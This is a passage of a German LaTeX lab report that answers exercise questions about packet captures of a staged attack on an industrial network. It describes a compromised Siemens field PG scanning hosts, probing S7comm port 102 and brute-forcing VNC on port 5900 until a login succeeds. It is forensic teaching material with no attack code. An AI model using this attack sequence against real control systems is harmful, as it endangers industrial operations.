    
\includegraphics[width=\textwidth]{ws-arp-scan.png}
    \caption{Intensiver ARP-Scan des Netzwerks}
    \label{fig:ws-arp-scan}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=\textwidth]{ws-port-scan.png}
    \caption{TCP-Verbindungsversuche des verdächtigen Systems}
    \label{fig:ws-arp-scan}
\end{figure}

\textbf{Welches System scannt das Netzwerk nach Netzwerkteilnehmern?}
\\
Das SIEMENS AG SIMATIC Field PG M5 des Technikers (10.3.5.5, MAC: 00:1b:1b:f7:7c:4f) führt den Netzwerk-Scan durch. Dies bestätigt den Verdacht aus den vorherigen Phasen, dass dieses System kompromittiert wurde.

\subsubsection{Phase 3}
Kritische Systemziele bestimmen (attack3.pcapng)
\\ \\
\textbf{Über welchen Port versucht das infizierte System Kontakt aufzunehmen?}
\\
Das infizierte System versucht, Verbindungen über Port 102 zu den Systemen 10.3.5.11 und 10.3.5.12 aufzubauen. Port 102 ist bekannt für das S7comm-Protokoll, das in Siemens S7 SPS-Systemen verwendet wird  \cite{port-sps}.

\begin{figure}[H]
    \centering
    
\includegraphics[width=\textwidth]{ws-port-102-connections.png}
    \caption{Verbindungsversuche über Port 102 zu kritischen Systemen}
    \label{fig:ws-port-102-connections}
\end{figure}

\subsubsection{Phase 4}
Rohe Gewalt (attack4.pcapng)
\\ \\
\textbf{Schauen Sie sich die einzelnen Verbindungsversuche näher an. Welches Protokoll wird neu verwendet?}
\\
In dieser Phase wird das Virtual Network Computing (VNC) Protokoll neu eingesetzt. Dies deutet auf Versuche hin, Fernzugriff auf andere Systeme zu erlangen. Es gibt mehrere Verbindungsversuche vom infizierten System (10.3.5.5) zum Zielsystem (10.3.5.3) über den VNC-Standardport 5900.
\\ \\
Der erste Verbindungsversuch (Frame 27) zeigt ein TCP SYN-Paket, das den Beginn eines Verbindungsaufbaus darstellt. Allerdings scheitern diese Versuche, wie in Frame 42 zu sehen ist, wo eine Authentifizierungsfehlermeldung (Authentication failed) auftritt.
\\ \\
\textbf{Wurde die Verbindung erfolgreich hergestellt? Notieren Sie ggf. den Zeitstempel.}
\\
Eine erfolgreiche TCP-Verbindung wurde hergestellt, beginnend mit Frame 372. Der Verbindungsaufbau erfolgte zwischen dem infizierten System (10.3.5.5) und dem Zielsystem (10.3.5.3) über den VNC-Port 5900. Der initiale Verbindungsversuch (SYN-Paket) wird in Frame 372 gezeigt. Die erfolgreiche Authentifizierung wird in Frame 386 bestätigt, mit dem Zeitstempel 8. Juni 2018, 14:13:37.179082000 CEST.

\begin{figure}[H]
    \centering
